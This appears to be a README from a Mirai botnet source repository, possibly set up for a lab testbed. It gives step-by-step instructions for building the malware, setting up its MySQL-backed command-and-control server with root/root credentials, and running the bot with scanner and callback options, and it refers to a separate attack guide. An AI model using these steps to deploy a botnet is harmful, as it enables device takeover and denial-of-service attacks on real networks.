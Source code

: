 #Setup Instructions (for x86/x64 bot)

###For NCL
We'll need to update the `sources.list` to get `apt-get` working (only applies to cnc). 

1. go to `/etc/apt`
2. rename `sources.list` to `sources.list.bak`
3. create a new `sources.list` and add the following lines to it
  ```
  ###### Ubuntu Main Repos
  deb http://sg.archive.ubuntu.com/ubuntu/ trusty main restricted universe multiverse 
  deb-src http://sg.archive.ubuntu.com/ubuntu/ trusty main restricted universe multiverse 

  ###### Ubuntu Update Repos
  deb http://sg.archive.ubuntu.com/ubuntu/ trusty-security main restricted universe multiverse 
  deb http://sg.archive.ubuntu.com/ubuntu/ trusty-updates main restricted universe multiverse 
  deb http://sg.archive.ubuntu.com/ubuntu/ trusty-proposed main restricted universe multiverse 
  deb http://sg.archive.ubuntu.com/ubuntu/ trusty-backports main restricted universe multiverse 
  deb-src http://sg.archive.ubuntu.com/ubuntu/ trusty-security main restricted universe multiverse 
  deb-src http://sg.archive.ubuntu.com/ubuntu/ trusty-updates main restricted universe multiverse 
  deb-src http://sg.archive.ubuntu.com/ubuntu/ trusty-proposed main restricted universe multiverse 
  deb-src http://sg.archive.ubuntu.com/ubuntu/ trusty-backports main restricted universe multiverse 
  ```
4. now `apt-get` should work

###Installation Instructions for Running cnc (assumes you have already built it)
1. install mysql: `sudo apt-get install mysql-server mysql-client`
  * make sure you set the root password as `root` during the installation
2. run [scripts/db.sql](scripts/db.sql) in the mysql shell
  ```
  <in the scripts folder>
  mysql -u root -p
  <enter password>
  
  source db.sql;
  \q
  ```
3. to make sure you are not kicked out of the session, add these two lines under the `[mysqld]` section in `/etc/mysql/my.cnf` (you will probably need root access)
  ```
  [mysqld]
  
  ...
  
  wait_timeout = 86400
  interactive_timeout = 86400
  ```
4. restart mysql: `sudo service mysql restart`
5. run the cnc: `sudo ./cnc`
6. in order to access the cnc, use `telnet localhost` (assumes you are telnet-ing on the cnc machine)
7. use `username: root` and `password: root` to login (as defined in [scripts/db.sql](scripts/db.sql))
8. refer to [attack-instructions.md](attack-instructions.md) for how to launch an attack

###Instructions for Running bot (assumes you have already built it)
1. run the bot: `sudo ./debug/mirai.dbg <cnc ip> <local ip> <callback ip> <enable scanner 0/1>` (assumes you have built the debug version)
  * e.g. `sudo ./debug/mirai.dbg 10.0.0.1 10.0.0.2 10.0.0.1 0`

###Installation Instructions for Building
1. install golang
  ```
  sudo add-apt-repository ppa:ubuntu-lxc/lxd-stable
  sudo apt-get update
  
  sudo apt-get install golang
  ```
2. run [scripts/cross-compile.sh](scripts/cross-compile.sh) (needs root)
3. add export paths in `~/.bashrc`
  ```
  add the following lines:
  
  export PATH=$PATH:/etc/xcompile/i586/bin
  export PATH=$PATH:/usr/lib/go/bin
  export GOPATH=$HOME/Documents/go
  ```
4. install git: `sudo apt-get install git`
5. install go packages
  * `go get github.com/go-sql-driver/mysql`
  * `go get github.com/mattn/go-shellwords`
6. build using [mirai/build.sh](mirai/build.sh)
  * e.g. `mirai/build.sh debug telnet`
  * only the debug, telnet version has been tested
